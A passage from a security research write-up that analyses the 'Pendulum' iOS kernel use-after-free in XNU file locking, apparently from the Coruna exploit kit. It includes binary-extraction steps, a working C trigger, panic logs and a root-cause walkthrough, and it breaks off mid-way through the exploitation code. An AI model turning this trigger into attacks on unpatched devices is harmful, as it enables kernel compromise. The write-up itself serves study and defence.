# [Practice] About Pendulum PE Vulnerability Used in Coruna

In March of this year, several spyware campaigns targeting iOS devices, including Coruna and DarkSword, were discovered. They are still being distributed, and according to the [Google blog](https://cloud.google.com/blog/en/topics/threat-intelligence/coruna-powerful-ios-exploit-kit?hl=en), Coruna used a total of 6 types of PE(Privilege Escalation), that is, 6 kernel vulnerabilities. 

Among them, there are a total of 2 kernel vulnerabilities(Pendulum, Gruber) that were not officially announced as CVEs. In March, I used AI to reconstruct the Gruber vulnerability into its original source code([demonstration video on an iPad 7](https://www.youtube.com/watch?v=otw39UTc89g)) and also [succeeded in porting it to a VMApple virtual machine](https://github.com/wh1te4ever/xnu_1day_practice/tree/main/NoCVE-CorunaPEGruber/mimic_vmapple_140), but I put the analysis on hold because it was difficult to understand the root cause of the vulnerability. Since the [article written by littlelalio](https://littlelailo.github.io/writeups/coruna.html#ref_38) contains analysis of the Gruber vulnerability, it would be good to refer to it instead.

Therefore, I decided to analyze the Pendulum kernel vulnerability instead of Gruber.

# Extracting the Binary Containing the Kernel Vulnerability(Pendulum PE)

The target was an iPhone 8, iOS 14.4.2 (jailbroken with Taurine) device.

The extraction method is simple: jailbreak with Tweak Injection disabled, and then attach lldb to the WebContent process. If you set a breakpoint on `compression_decode_buffer`, the breakpoint will probably be hit a total of 2 times; dump it at the breakpoint hit on the last(2nd) time.



When dumped, it produces a block made up of a total of 3 mach-o files. 

It may differ in each case, but in my case, extracting the 30158h part at the 2nd-highest address produced the binary containing the kernel vulnerability.

[pendulum_pe.bin](attachment/pendulum_pe.bin)



# Analysis

The kernel vulnerability is triggered in worker_thread_main(0x4d38), and





I was able to write the poc code while referring to it.

```c
#include <sys/types.h>
#include <sys/fcntl.h>

#include <errno.h>
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

#define F_OFD_SETLK 90

int ofd_set_lock(int fd, short type, off_t start, off_t length)
{
    struct flock fl;

    memset(&fl, 0, sizeof(fl));

    fl.l_start  = start;
    fl.l_len    = length;
    fl.l_pid    = 0;
    fl.l_type   = type;
    fl.l_whence = SEEK_SET;

    return fcntl(fd, F_OFD_SETLK, &fl);
}

int
main(void)
{
    int fd = open("/dev/urandom", O_RDONLY);
    if (fd < 0) {
		printf("[-] open /dev/urandom failed: %s(%d)\n", strerror(errno), errno);
        return -1;
    }
	printf("[i] /dev/urandom fd: %d\n", fd);

	if (ofd_set_lock(fd, F_RDLCK, 10, 10) != 0)  {
		return -1;
	}

	if (ofd_set_lock(fd, F_RDLCK, (off_t)INT64_MAX, (off_t)0) < 0) {
        return -1;
    }

	if (ofd_set_lock(fd, F_UNLCK, (off_t)30, (off_t)0x7fffffffffffffe2ULL) < 0) {
        return -1;
    }

	if (ofd_set_lock(fd, F_RDLCK, (off_t)15, (off_t)10) < 0) {
        return -1;
    }
	close(fd);

	printf("[*] didn't panic? rerun again\n");
    while(1) {};

    return 0;
}
```

When the poc is run on an iPhone 11/iOS 14.0b5 emulator using Inferno, a kernel panic occurs, reporting that traces of use were found in the freed default.kalloc.96 zone. (UAF)

It appears to have occurred when a process named aggregated tried to allocate kernel memory from the default.kalloc.96 zone..





```objectivec
seo@seos-MacBook-Air ios14b5 % lldb kernel.research.iphone12b
(lldb) target create "kernel.research.iphone12b"
Current executable set to '/Volumes/sn850x_apfs/ios14b5/kernel.research.iphone12b' (arm64e).
(lldb) gdb-remote 1234
Kernel UUID: FDDAF386-4EA2-35FC-8235-1F167AEFD6F3
Load Address: 0xfffffff007004000
Kernel slid 0x0 in memory.
Loaded kernel file /Volumes/sn850x_apfs/ios14b5/kernel.research.iphone12b
Process 1 stopped
* thread #1, stop reason = signal SIGTRAP
    frame #0: 0xfffffff008125a14 kernel.research.iphone12b`arm64_retention_wfi + 4
kernel.research.iphone12b`arm64_retention_wfi:
->  0xfffffff008125a14 <+4>:  cbz    x30, 0xfffffff008125a1c ; <+12>
    0xfffffff008125a18 <+8>:  ret
    0xfffffff008125a1c <+12>: mov    x0, #0x1 ; =1
    0xfffffff008125a20 <+16>: bl     0xfffffff007b60ffc ; ClearIdlePop
Target 0: (kernel.research.iphone12b) stopped.
(lldb) breakpoint set -H -n panic
Breakpoint 1: where = kernel.research.iphone12b`panic, address = 0xfffffff0097db944
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #3, stop reason = breakpoint 1.1
    frame #0: 0xfffffff0097db944 kernel.research.iphone12b`panic
kernel.research.iphone12b`panic:
->  0xfffffff0097db944 <+0>:  pacibsp
    0xfffffff0097db948 <+4>:  sub    sp, sp, #0x20
    0xfffffff0097db94c <+8>:  stp    x29, x30, [sp, #0x10]
    0xfffffff0097db950 <+12>: add    x29, sp, #0x10
Target 0: (kernel.research.iphone12b) stopped.
(lldb) bt
* thread #3, stop reason = breakpoint 1.1
  * frame #0: 0xfffffff0097db944 kernel.research.iphone12b`panic
    frame #1: 0xfffffff008127ee4 kernel.research.iphone12b`zone_element_not_clear_panic + 60
    frame #2: 0xfffffff007a9156c kernel.research.iphone12b`zalloc_validate_element + 236
    frame #3: 0xfffffff007a94d34 kernel.research.iphone12b`zcache_alloc_from_cpu_cache + 292
    frame #4: 0xfffffff007a92d3c kernel.research.iphone12b`zalloc_ext + 60
    frame #5: 0xfffffff007a3bf74 kernel.research.iphone12b`kalloc_ext + 152
    frame #6: 0xfffffff007e6a154 kernel.research.iphone12b`lf_advlock + 380
    frame #7: 0xfffffff007e46fb4 kernel.research.iphone12b`sys_fcntl_nocancel + 12540
    frame #8: 0xfffffff007f7fc80 kernel.research.iphone12b`unix_syscall + 724
    frame #9: 0xfffffff007b56c6c kernel.research.iphone12b`sleh_synchronous + 716
    frame #10: 0xfffffff00811c5f4 kernel.research.iphone12b`fleh_synchronous + 40
    frame #11: 0x000000018b6e6214 
    frame #12: 0x000000018d677bf8
    frame #13: 0x000000018d5e6310
    frame #14: 0x000000018d617140
    frame #15: 0x000000018d6165b4
    frame #16: 0x000000018d5e0fac
    frame #17: 0x000000018d60f3e4
    frame #18: 0x000000018d5ff7ac
    frame #19: 0x00000001b574035c
    frame #20: 0x00000001b57232f4
    frame #21: 0x000000018b5a5ac8
    frame #22: 0x000000018b5b3c8c
    frame #23: 0x00000001b56edebc
    frame #24: 0x00000001b5723210
    frame #25: 0x00000001b5723a04
    frame #26: 0x00000001b56ad80c
    frame #27: 0x00000001b56ae740
    frame #28: 0x00000001b56a9274
    frame #29: 0x00000001b56eded8
    frame #30: 0x00000001b56a91f8
    frame #31: 0x00000001b56ae160
    frame #32: 0x00000001b56d3b24
    frame #33: 0x00000001b56d3fb4
    frame #34: 0x00000001b56d3098
    frame #35: 0x000000018b5a3fd0
    frame #36: 0x000000018b5a5ac8
    frame #37: 0x000000018b5acc08
    frame #38: 0x000000018b5ad768
    frame #39: 0x000000018b5b7528
    frame #40: 0x000000018b612908
(lldb) c
Process 1 resuming
```

```objectivec
bash-5.2# ./pendulum_poc
[i] /dev/urandom fd: 3
[*] didn't panic? rerun again
Attempting to forcibly halt cpu 4
cpu 4 failed to halt with error -5: halt not supported for this configuration
Attempting to forcibly halt cpu 5
cpu 5 failed to halt with error -5: halt not supported for this configuration
Debugger synchronization timed out; waited 10000000 nanoseconds
IOPlatformPanicAction -> AppleANS2NVMeController
IOPlatformPanicAction -> AppleT8027USBXDCI
IOPlatformPanicAction -> AppleS5L8960XWatchDogTimer
not enabling long period watchdog (cleared SoC watchdog if enabled prior), panic SoC watchdog disabled
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> AppleSMC
AppleSMC detected kPanicBegin
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleT8030PMGR
panic(cpu 2 caller 0xfffffff008127ee4): "Zone element 0xffffffe19d2239c0 was modified after free for zone default.kalloc.96: " "Expected element to be cleared"
Debugger message: panic
Memory ID: 0x0
OS release type: Beta
OS version: 18A5351d
Kernel version: Darwin Kernel Version 20.0.0: Wed Aug 12 22:56:55 PDT 2020; root:xnu-7195.0.33~64/RELEASE_ARM64_T8030
Kernel UUID: FDDAF386-4EA2-35FC-8235-1F167AEFD6F3
iBoot version: ChefKiss QEMU Apple Silicon
secure boot?: YES
Paniclog version: 13
Kernel text base:  0xfffffff007004000
mach_absolute_time: 0x1f9ae95f3
Epoch Time:        sec       usec
  Boot    : 0x6a5eb336 0x000de0e9
  Sleep   : 0x00000000 0x00000000
  Wake    : 0x00000000 0x00000000
  Calendar: 0x6a5eb496 0x00076724

Panicked task 0xffffffe19c0e5900: 1325 pages, 7 threads: pid 70: aggregated
Panicked thread: 0xffffffe19cb69d10, backtrace: 0xffffffe81abc2fa0, tid: 4089
		  lr: 0xfffffff007a2af48  fp: 0xffffffe81abc2fe0
		  lr: 0xfffffff007a2ad48  fp: 0xffffffe81abc3050
		  lr: 0xfffffff007b64940  fp: 0xffffffe81abc3070
		  lr: 0xfffffff007b56e1c  fp: 0xffffffe81abc3130
		  lr: 0xfffffff00811c5f4  fp: 0xffffffe81abc3140
		  lr: 0xfffffff007a2aa30  fp: 0xffffffe81abc34c0
		  lr: 0xfffffff007a2aa30  fp: 0xffffffe81abc3520
		  lr: 0xfffffff0097db97c  fp: 0xffffffe81abc3540
		  lr: 0xfffffff008127ee4  fp: 0xffffffe81abc3570
		  lr: 0xfffffff007a9156c  fp: 0xffffffe81abc35b0
		  lr: 0xfffffff007a94d34  fp: 0xffffffe81abc35f0
		  lr: 0xfffffff007a92d3c  fp: 0xffffffe81abc3630
		  lr: 0xfffffff007a3bf74  fp: 0xffffffe81abc3650
		  lr: 0xfffffff007e6a154  fp: 0xffffffe81abc38e0
		  lr: 0xfffffff007e46fb4  fp: 0xffffffe81abc3da0
		  lr: 0xfffffff007f7fc80  fp: 0xffffffe81abc3e30
		  lr: 0xfffffff007b56c6c  fp: 0xffffffe81abc3ef0
		  lr: 0xfffffff00811c5f4  fp: 0xffffffe81abc3f00

!! debugger synchronization failed, no stackshot !!
IOPlatformPanicAction -> AppleANS2NVMeController
IOPlatformPanicAction -> AppleT8027USBXDCI
IOPlatformPanicAction -> AppleS5L8960XWatchDogTimer
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> AppleSMC
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleT8030PMGR
IOPlatformPanicAction -> AppleANS2NVMeController
IOPlatformPanicAction -> AppleT8027USBXDCI
IOPlatformPanicAction -> AppleS5L8960XWatchDogTimer
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> AppleSMC
AppleSMC detected kPanicEnd
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleT8030PMGR
IOPlatformPanicAction -> AppleANS2NVMeController
IOPlatformPanicAction -> AppleT8027USBXDCI
IOPlatformPanicAction -> AppleS5L8960XWatchDogTimer
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> AppleSMC
IOPlatformPanicAction -> RTBuddyV2
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleMCA2Cluster_T8030
IOPlatformPanicAction -> AppleT8030PMGR
wdog panic (attempt 1)
not enabling long period watchdog (cleared SoC watchdog if enabled prior), panic SoC watchdog disabled
seo@seos-MacBook-Air ios14b5 %
```

## ofd_set_lock?

This function can be understood as one that cooperatively(advisory) coordinates multiple execution entities using the same file so that they do not simultaneously access a specific byte range.

**It does not permanently prohibit changes.** 

It prevents data corruption caused by multiple processes or threads that follow the locking rules modifying the same region at the same time. If a child process created with `fork()` attempts a lock(fcntl) that overlaps a range locked by its parent, it fails to acquire the lock and returns a Resource temporarily unavailable error. 

Therefore, a program that works with an `fcntl()` lock on the same range can detect the conflict and avoid making changes, but a program that does not check the lock can simply change that range with `write()` or `pwrite()`.

```c
int ofd_set_lock(int fd, short type, off_t start, off_t length)
{
    struct flock fl;

    memset(&fl, 0, sizeof(fl));

    fl.l_start  = start;
    fl.l_len    = length;
    fl.l_pid    = 0;
    fl.l_type   = type;
    fl.l_whence = SEEK_SET;

    return fcntl(fd, F_OFD_SETLK, &fl);
}
```

## Root Cause Analysis

This time, I examined the code from userland → kernel.

It is difficult to explain everything with a single diagram, so let us examine it step by step.


I will divide the Poc code into its individual code blocks, (A), (B), (U), and (C), and explain each one together with the kernel hooking results.



Kernel hooking results:

```
[  871.341437]: lf_advlock_hook ap=0xffffffe804c93b70
[  871.341440]:   desc=0xfffffff0256ced90 vp=0xffffffe19cc90d90 id=0xffffffe1a06f6700 op=8 fl=0xffffffe804c939b0 flags=0x400 context=0xffffffe804c93970 timeout=0
[  871.341447]:   flock start=10 len=10 pid=0 type=1 whence=0
[  871.341453]: lf_findoverlap_hook lf=0 lock=0xffffffe4cdf18720 type=2 prev=0xffffffe804c93660 overlap=0xffffffe804c93658
[  871.341458]:   lock flags=0x400 type=1 start=10 end=19 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf18758 block_next=0 block_prev=0 owner=0
[  871.341465]: lf_findoverlap ret=0 prev_value=0xffffffe19cc90e58 overlap_value=0
[  871.341469]: lf_findoverlap_hook lf=0 lock=0xffffffe4cdf18720 type=1 prev=0xffffffe804c93650 overlap=0xffffffe804c93648
[  871.341473]:   lock flags=0x400 type=1 start=10 end=19 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf18758 block_next=0 block_prev=0 owner=0
[  871.341479]: lf_findoverlap ret=0 prev_value=0xffffffe19cc90e58 overlap_value=0

[  871.341485]: lf_advlock_hook ap=0xffffffe804c93b70
[  871.341487]:   desc=0xfffffff0256ced90 vp=0xffffffe19cc90d90 id=0xffffffe1a06f6700 op=8 fl=0xffffffe804c939b0 flags=0x400 context=0xffffffe804c93970 timeout=0
[  871.341492]:   flock start=9223372036854775807 len=0 pid=0 type=1 whence=0
[  871.341496]: lf_findoverlap_hook lf=0xffffffe4cdf18720 lock=0xffffffe4cdf114a0 type=2 prev=0xffffffe804c93660 overlap=0xffffffe804c93658
[  871.341501]:   lf flags=0x400 type=1 start=10 end=19 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf18758 block_next=0 block_prev=0 owner=0
[  871.341507]:   lock flags=0x400 type=1 start=9223372036854775807 end=-1 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf114d8 block_next=0 block_prev=0 owner=0
[  871.341514]: lf_findoverlap ret=0 prev_value=0xffffffe4cdf18750 overlap_value=0
[  871.341517]: lf_findoverlap_hook lf=0xffffffe4cdf18720 lock=0xffffffe4cdf114a0 type=1 prev=0xffffffe804c93650 overlap=0xffffffe804c93648
[  871.341521]:   lf flags=0x400 type=1 start=10 end=19 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf18758 block_next=0 block_prev=0 owner=0
[  871.341527]:   lock flags=0x400 type=1 start=9223372036854775807 end=-1 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf114d8 block_next=0 block_prev=0 owner=0
[  871.341534]: lf_findoverlap ret=0 prev_value=0xffffffe4cdf18750 overlap_value=0

[  871.341618]: lf_advlock_hook ap=0xffffffe80ffe3880
[  871.341623]:   desc=0xfffffff0256ced90 vp=0xffffffe19cc90d90 id=0xffffffe1a06f6700 op=2 fl=0xffffffe80ffe39b0 flags=0x400 context=0xffffffe80ffe3970 timeout=0
[  871.341629]:   flock start=30 len=9223372036854775778 pid=0 type=2 whence=0
[  871.341634]: lf_clearlock_hook unlock=0xffffffe4cdf108a0
[  871.341636]:   unlock flags=0x400 type=2 start=30 end=9223372036854775807 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf108d8 block_next=0 block_prev=0 owner=0
[  871.341644]: lf_findoverlap_hook lf=0xffffffe4cdf18720 lock=0xffffffe4cdf108a0 type=1 prev=0xffffffe80ffe3480 overlap=0xffffffe80ffe3488
[  871.341648]:   lf flags=0x400 type=1 start=10 end=19 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0xffffffe4cdf114a0 blk_first=0 blk_last=0xffffffe4cdf18758 block_next=0 block_prev=0 owner=0
[  871.341655]:   lock flags=0x400 type=2 start=30 end=9223372036854775807 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf108d8 block_next=0 block_prev=0 owner=0
[  871.341662]: lf_findoverlap ret=5 prev_value=0xffffffe4cdf18750 overlap_value=0xffffffe4cdf114a0
[  871.341666]: kfree_ext_hook heap=0xfffffff023c5e5d0 addr=0xffffffe4cdf108a0 size=0xffffffffffffffff

[  871.341684]: lf_advlock_hook ap=0xffffffe80ffe3b70
[  871.341686]:   desc=0xfffffff0256ced90 vp=0xffffffe19cc90d90 id=0xffffffe1a06f6700 op=8 fl=0xffffffe80ffe39b0 flags=0x400 context=0xffffffe80ffe3970 timeout=0
[  871.341692]:   flock start=15 len=10 pid=0 type=1 whence=0
[  871.341695]: lf_findoverlap_hook lf=0xffffffe4cdf18720 lock=0xffffffe4cdf108a0 type=2 prev=0xffffffe80ffe3660 overlap=0xffffffe80ffe3658
[  871.341699]:   lf flags=0x400 type=1 start=10 end=19 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0xffffffe4cdf114a0 blk_first=0 blk_last=0xffffffe4cdf18758 block_next=0 block_prev=0 owner=0
[  871.341707]:   lock flags=0x400 type=1 start=15 end=24 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf108d8 block_next=0 block_prev=0 owner=0
[  871.341713]: lf_findoverlap ret=0 prev_value=0xffffffe4cdf114d0 overlap_value=0
[  871.341716]: lf_findoverlap_hook lf=0xffffffe4cdf18720 lock=0xffffffe4cdf108a0 type=1 prev=0xffffffe80ffe3650 overlap=0xffffffe80ffe3648
[  871.341721]:   lf flags=0x400 type=1 start=10 end=19 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0xffffffe4cdf114a0 blk_first=0 blk_last=0xffffffe4cdf18758 block_next=0 block_prev=0 owner=0
[  871.341727]:   lock flags=0x400 type=1 start=15 end=24 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf108d8 block_next=0 block_prev=0 owner=0
[  871.341734]: lf_findoverlap ret=4 prev_value=0xffffffe19cc90e58 overlap_value=0xffffffe4cdf18720
[  871.341737]: lf_findoverlap_hook lf=0xffffffe4cdf114a0 lock=0xffffffe4cdf108a0 type=1 prev=0xffffffe80ffe3650 overlap=0xffffffe80ffe3648
[  871.341742]:   lf flags=0x400 type=1 start=-9223372036854775808 end=-1 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0 blk_first=0 blk_last=0xffffffe4cdf114d8 block_next=0 block_prev=0 owner=0
[  871.341748]:   lock flags=0x400 type=1 start=15 end=24 id=0xffffffe1a06f6700 head=0xffffffe19cc90e58 vnode=0xffffffe19cc90d90 next=0xffffffe4cdf114a0 blk_first=0 blk_last=0xffffffe4cdf108d8 block_next=0 block_prev=0 owner=0
[  871.341755]: lf_findoverlap ret=2 prev_value=0xffffffe4cdf108d0 overlap_value=0xffffffe4cdf114a0
[  871.341758]: kfree_ext_hook heap=0xfffffff023c5e5d0 addr=0xffffffe4cdf108a0 size=0xffffffffffffffff
```

### Creating the 1st Lock (A) (start=10, end=19)

First, the `fcntl` executed by `ofd_set_lock` in userland is handled by the kernel's `sys_fcntl` → `sys_fcntl_nocancel`.

`sys_fcntl_nocancel` once again calls the `VNOP_ADVLOCK` function, 



Because the opened file is `/dev/urandom`, `VLOCKLOCAL` is always set. 
Therefore, it calls the `if_advlock` function.



Looking at the `switch (fl->l_whence)` statement in the `if_advlock` function, 
start, oadd, and end are as follows.

```c
start = 10
oadd = 10-1 = 9
end = 10+9=1 
```



Next, looking at the `switch (ap->a_op)` statement in the `if_advlock` function, 
Because it corresponds to `F_UNLCK`, it calls `lf_setlock`.

Let us examine `lf_setlock`.
Because this creates the lock list for the first time, `ovcase` becomes 0 (OVERLAP_NONE). 



As a result, the lock list is created as follows. head → (A) → NULL



### Creating the 2nd Lock (B) (start=INT64_MAX, end=EOF)

As seen earlier, the functions are called in the order `fcntl` → `sys_fcntl` → `sys_fcntl_nocancel` → `VOP_ADVLOCK` →`lf_advlock`. 

In `lf_advlock`, start=9223372036854775807 (INT64_MAX) and end=-1 (EOF) are specified.



Let us examine `lf_setlock`. 
Because there is no lock region that overlaps the existing A, `lf_findoverlap` returns 0 (OVERLAP_NONE).


Therefore, the lock list is created as follows. head  → (A) → (B) → NULL



### Unlocking (U) (start=30, end=INT64_MAX) -  An overflow changes lock B's start to INT64_MIN

Looking at the `switch (fl->l_whence)` statement in the `if_advlock` function, 
start, oadd, and end are as follows.

```c
start=30, 
oadd = 9223372036854775778 -1 = 9223372036854775777,
end = 30 + 9223372036854775777 = 9223372036854775807 (INT64_MAX)
```



Unlike the previous (A) and (B) requests, it calls `lf_clearlock`,



Looking at `lf_findoverlap` in `lf_clearlock`, 

(B) = [start=INT64_MAX, end=EOF]
(U) = [start=30, end=INT64_MAX]

Because (B) starts at the last position of (U) and continues to EOF, it returns 5 (OVERLAP_ENDS_AFTER_LOCK).



The problem here is that, in the `case OVERLAP_ENDS_AFTER_LOCK:` statement, 
adding 1 to INT64_MAX causes an overflow.
Therefore, the `start` of (B) is changed to INT64_MIN.



The pointer links are not corrupted, but (B), which has the smaller start value, is placed after (A) **in a lock list that should be sorted**.

This produces an intentionally corrupted intermediate state that will later cause an incorrect overlap decision and a UAF in the next (C) [start=15, end=24] request.

As a result, the lock list is created as follows. 

head → (A) → (**start changed to INT64_MIN** B) → NULL



### Creating the 3rd Lock (C) (start=15, end=24)

Looking at the `switch (fl->l_whence)` statement in the `if_advlock` function, 
start, oadd, and end are as follows.

```c
start = 15, 
oadd = 10 -1 = 9,
end = 15 + 9 = 24
```



Let us examine `lf_setlock`.

Looking at the value of the first `lf_overlap` in the for loop,

(A) was [start=10, end=19], and the next of (A) was (B), while the new (C) is [start=15, end=24].

As a result, (A) starts before (C) and overlaps with (C) in the [start=15, end=19] range, so
it returns 4(OVERLAP_STARTS_BEFORE_LOCK).



The order of the lock list changes because of the `OVERLAP_STARTS_BEFORE_LOCK case` statement.



As a result, the lock list is created as follows.  C can be considered to have been created between A and B.


Looking at the second `lf_overlap` value in the for loop,

The hooking results show that B.start=INT64_MIN and C.next = B. This confirms that the previous ret = 4 handling linked C between A and B.

Therefore, the corrupted B = [INT64_MIN, EOF] is judged to contain all of C = [15, 24], so it returns 2(=OVERLAP_CONTAINS_LOCK).



The corrupted (B) is judged to contain all of (C),
and because (B) and (C) have the same F_RDLCK, **(C) is treated as an unnecessary duplicate lock and freed!**

**The problem is that even though (C) is already linked into the list,
it is FREEd without first being removed from the list.**

Therefore, the following links remain intact.
A.next = C
C.next = B

Before C is freed, C contains C.next = B.

However, after C is freed, the contents of C's memory are no longer guaranteed,
and as a result, a dangling pointer remains.



## Exploitation

### 1. Triggering the Bug

Although already examined it in Root Cause, I added ENABLE_HELPER code so that the vulnerability can be easily understood even in environments where xnuspy is not supported. Let us look at the execution results.

```c
int main(void)
{
... 
    // 000000000000512C
    // Trigger vuln
    // head -> A[10,14] -> C[15,24](FREED) -> B[INT64_MIN,EOF] -> NULL
    // The problem is that (C) is FREEd without first being removed from the list, 
    // even though it is already linked to the list.

    // still preserves like:
    // A.next = C
    // C.next = B

    // But after C is freed, however, the contents of C's memory are no longer guaranteed, 
    // leaving a dangling pointer.

	if (ofd_set_lock(urandom_fd, F_RDLCK, 10, 10) != 0)  {
		return -1;
	}
#if ENABLE_HELPER 
    uint64_t urandom_vnode = 0;
    uint64_t urandom_v_lockf = 0;
    uint64_t lf_start = 0; uint64_t lf_end = 0;
    uint64_t lf_head = 0;   uint64_t lf_next = 0;

    urandom_vnode = get_vnode_by_fd(urandom_fd);
    printf("[STAGE1] urandom_vnode = 0x%llX\n", urandom_vnode);
    urandom_v_lockf = tfp0_kread64(urandom_vnode + off_vnode_v_lockf);
    printf("[STAGE1] v_lockf(A) = 0x%llX\n", urandom_v_lockf);
    lf_start = tfp0_kread64(urandom_v_lockf + off_lockf_lf_start);
    lf_end = tfp0_kread64(urandom_v_lockf + off_lockf_lf_end);
    printf("[STAGE1] v_lockf(A)->lf_start = %lld, lf_end = %lld\n", lf_start, lf_end);
    lf_head = tfp0_kread64(urandom_v_lockf + off_lockf_lf_head);
    lf_next = tfp0_kread64(urandom_v_lockf + off_lockf_lf_next);
    printf("[STAGE1] v_lockf(A)->lf_head = 0x%llX, lf_next = 0x%llX\n", lf_head, lf_next);
    printf("======================== \n");
#endif

	if (ofd_set_lock(urandom_fd, F_RDLCK, (off_t)INT64_MAX, (off_t)0) < 0) {
        return -1;
    }
#if ENABLE_HELPER 
    urandom_v_lockf = tfp0_kread64(urandom_vnode + off_vnode_v_lockf);
    printf("[STAGE1.1] v_lockf(A) = 0x%llX\n", urandom_v_lockf);
    lf_start = tfp0_kread64(urandom_v_lockf + off_lockf_lf_start);
    lf_end = tfp0_kread64(urandom_v_lockf + off_lockf_lf_end);
    printf("[STAGE1.1] v_lockf(A)->lf_start = %lld, lf_end = %lld\n", lf_start, lf_end);
    lf_head = tfp0_kread64(urandom_v_lockf + off_lockf_lf_head);
    lf_next = tfp0_kread64(urandom_v_lockf + off_lockf_lf_next);
    printf("[STAGE1.1] v_lockf(A)->lf_head = 0x%llX, lf_next = 0x%llX\n", lf_head, lf_next);

    if(lf_next) {
        urandom_v_lockf = lf_next;
        printf("[STAGE1.1] v_lockf(B) = 0x%llX\n", urandom_v_lockf);
        lf_start = tfp0_kread64(urandom_v_lockf + off_lockf_lf_start);
        lf_end = tfp0_kread64(urandom_v_lockf + off_lockf_lf_end);
        printf("[STAGE1.1] v_lockf(B)->lf_start = %lld, lf_end = %lld\n", lf_start, lf_end);
        lf_head = tfp0_kread64(urandom_v_lockf + off_lockf_lf_head);
        lf_next = tfp0_kread64(urandom_v_lockf + off_lockf_lf_next);
        printf("[STAGE1.1] v_lockf(B)->lf_head = 0x%llX, lf_next = 0x%llX\n", lf_head, lf_next);
    } else {
        printf("[STAGE1.1] v_lockf(B) should be exists!\n"); while(1) {};
    }
    printf("======================== \n");
#endif

	if (ofd_set_lock(urandom_fd, F_UNLCK, (off_t)30, (off_t)0x7fffffffffffffe2ULL) < 0) {
        return -1;
    }
#if ENABLE_HELPER 
    urandom_v_lockf = tfp0_kread64(urandom_vnode + off_vnode_v_lockf);
    printf("[STAGE1.2] v_lockf(A) = 0x%llX\n", urandom_v_lockf);
    lf_start = tfp0_kread64(urandom_v_lockf + off_lockf_lf_start);
    lf_end = tfp0_kread64(urandom_v_lockf + off_lockf_lf_end);
    printf("[STAGE1.2] v_lockf(A)->lf_start = %lld, lf_end = %lld\n", lf_start, lf_end);
    lf_head = tfp0_kread64(urandom_v_lockf + off_lockf_lf_head);
    lf_next = tfp0_kread64(urandom_v_lockf + off_lockf_lf_next);
    printf("[STAGE1.2] v_lockf(A)->lf_head = 0x%llX, lf_next = 0x%llX\n", lf_head, lf_next);

    if(lf_next) {
        urandom_v_lockf = lf_next;
        printf("[STAGE1.2] v_lockf(B) = 0x%llX\n", urandom_v_lockf);
        lf_start = tfp0_kread64(urandom_v_lockf + off_lockf_lf_start);
        lf_end = tfp0_kread64(urandom_v_lockf + off_lockf_lf_end);
